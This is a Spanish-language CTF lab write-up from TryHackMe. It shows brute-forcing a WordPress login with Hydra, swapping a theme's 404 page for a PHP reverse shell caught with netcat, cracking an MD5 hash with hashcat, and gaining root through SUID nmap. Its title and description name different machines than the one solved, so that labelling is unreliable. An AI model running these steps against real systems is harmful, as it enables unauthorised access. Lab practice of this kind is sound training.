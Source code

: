 # Resolución de la Máquina: Bounty Hacker

- **Plataforma:** TryHackMe
- **Dificultad:** Medio
- **Fecha de resolución:** 25/06/2025
- **Sistema Operativo:** Linux


## Descripción

RootMe es una máquina de nivel introductorio diseñada para enseñar conceptos básicos de enumeración web,
explotación remota y escalada de privilegios en sistemas Linux. Es ideal para principiantes que buscan familiarizarse con el flujo típico de un ataque en entornos CTF.

Esta máquina es especialmente útil para:

> Enumeración de servicios expuestos

> Explotación de vulnerabilidades web (RCE)

> Ganancia de acceso inicial (low privilege shell)

> Escalada de privilegios mediante binarios SUID mal configurados

## Enumeración

### Escaneo con Nmap

```bash
─$ nmap --open -sS -T5 -n -sV -Pn 10.10.39.168 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-25 18:34 CEST
Nmap scan report for 10.10.39.168
Host is up (0.092s latency).
Not shown: 997 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd
443/tcp open  ssl/http Apache httpd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.39 seconds
```
### Escaneo con gobuster

```bash
└─$ gobuster dir -u http://10.10.39.168/ -w /usr/share/wordlists/wfuzz/general/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.39.168/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/wfuzz/general/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/robots               (Status: 200) [Size: 41]
/admin                (Status: 301) [Size: 234] [--> http://10.10.39.168/admin/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.39.168/blog/]
/css                  (Status: 301) [Size: 232] [--> http://10.10.39.168/css/]
/images               (Status: 301) [Size: 235] [--> http://10.10.39.168/images/]
/js                   (Status: 301) [Size: 231] [--> http://10.10.39.168/js/]
/intro                (Status: 200) [Size: 516314]
/login                (Status: 302) [Size: 0] [--> http://10.10.39.168/wp-login.php]
/phpmyadmin           (Status: 403) [Size: 94]
/readme               (Status: 200) [Size: 64]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.39.168/feed/]
/sitemap              (Status: 200) [Size: 0]
/xmlrpc               (Status: 405) [Size: 42]
Progress: 952 / 953 (99.90%)
===============================================================
Finished
===============================================================
```
En robots.txt encontraremos un diccionario junto a la primera flag, para visualizarlo lo haremos como si de un sitio web más se tratase.
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Con un wget nos descargaremos este diccionario, lo limpiaremos debido a que hay muchas lineas repetidas.
```bash
wget http://10.10.196.195/fsocity.dic
sort -u archivo.txt > archivo_sin_repetidos.txt
```
Haremos un ataque de fuerza bruta con hydra únicamnete hacia el usuario, veremos que si el usuario existe el codigo de error es diferente y nos lo detecta.
Los parámetros del forumalario los podemos verificar enviando la petición de login hacia burpsuite.
```bash
└─$ hydra -I -L fsocity_clean.dic -p x 10.10.196.195 https-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submitLog%20In&testcookie=1:F=Invalid username" -t30
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizatins, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-25 23:02:24
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:11452/p:1), ~382 tries per task
[DATA] attacking http-post-forms://10.10.196.195:443/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log%20In&testcooke=1:F=Invalid username
[STATUS] 1365.00 tries/min, 1365 tries in 00:01h, 10087 to do in 00:08h, 30 active
[STATUS] 1106.33 tries/min, 3319 tries in 00:03h, 8133 to do in 00:08h, 30 active
[443][http-post-form] host: 10.10.196.195   login: Elliot   password: x
[443][http-post-form] host: 10.10.196.195   login: elliot   password: x
[443][http-post-form] host: 10.10.196.195   login: ELLIOT   password: x
[STATUS] 1028.86 tries/min, 7202 tries in 00:07h, 4250 to do in 00:05h, 30 active

```
Una vez detectado el usuario Eliot procederemos a lanzar el ataque de fuerza bruta contra la contraseña, hemos de tener en cuenta el campo F que detectara si las contraseñas probadas son incorrectas 
```bash
└─$ hydra -I -l ELLIOT -P fsocity_clean.dic 10.10.170.170 https-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submitLog%20In&testcookie=1:F=is incorrect" -t30                             
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-29 16:00:37
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:1/p:11452), ~382 tries per task
[DATA] attacking http-post-forms://10.10.170.170:443/wp-login.php:log=^USER^&pwd=^PASS^&wp-submitLog%20In&testcookie=1:F=is incorrect

[STATUS] 2322.00 tries/min, 2322 tries in 00:01h, 9130 to do in 00:04h, 30 active
[443][http-post-form] host: 10.10.170.170   login: ELLIOT   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-29 16:03:07
```
Desde Apparece > Editor modificaremos la página que se muestra en caso de no encontrar la página por una reverse shell en PHP (www.revshells.com)
Ahora solo hara falta ponernos en escucha con netcat y haremos que cargue la página de error 404.
Aqui encontraremos el segundo flag.
```bash
└─$ nc -lnvp 4444    
listening on [any] 4444 ...
connect to [10.9.1.252] from (UNKNOWN) [10.10.51.184] 45458
Linux ip-10-10-51-184 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 16:28:05 up 9 min,  0 users,  load average: 0.49, 0.19, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
bash: cannot set terminal process group (5360): Inappropriate ioctl for device
bash: no job control in this shell
daemon@ip-10-10-51-184:/$ 
```
En el home de robot nos encontraremos un hash MD5 que crackearemos para poder acceder mediante SSH como robot y poder ver el segundo flag
```bash
─$ hashcat -a 0 -m 0 hash.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i5-10600KF CPU @ 4.10GHz, 2192/4449 MB (1024 MB allocatable), 3MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
```
Buscaremos binarios con el SUID activado y buscaremos en GTFOBins si podemos explotar algún binario gracias al SUID.
```bash
robot@ip-10-10-51-184:/usr/local/bin$ find / -perm -4000 2>/dev/null
/bin/umount
/bin/mount
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
Nos centraremos en el binario de nmap, si lo buscamos en GTFOBins veremos que podemos explotar el SUID
```bash
robot@ip-10-10-51-184:/usr/local/bin$ ./nmap
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash
root@ip-10-10-51-184:/usr/local/bin# cd /root
root@ip-10-10-51-184:/root# ls
firstboot_done  key-3-of-3.txt
root@ip-10-10-51-184:/root#
```

